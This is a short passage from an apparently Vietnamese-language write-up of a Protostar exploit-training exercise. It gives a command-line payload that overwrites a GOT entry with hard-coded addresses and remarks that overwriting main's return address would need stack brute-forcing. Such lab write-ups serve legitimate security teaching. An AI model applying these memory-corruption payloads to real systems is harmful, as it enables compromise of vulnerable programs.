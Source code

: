 $(python -c "print 'AAAABBBBCCCCDDDDEEEE'+'\x74\x97\x04\x08'") $(python -c "print '\x94\x84\x04\x08'") => overwrite GOT \n
Cũng có thể overwrite return address của main nữa, nhưng khi đó phải brute stack address :v khá là lười. Demo:\n
![image](https://github.com/CP04042K/Protostar-writeup/assets/35491855/5f80f9d9-42eb-45ac-997f-fe78c0bc5d80)
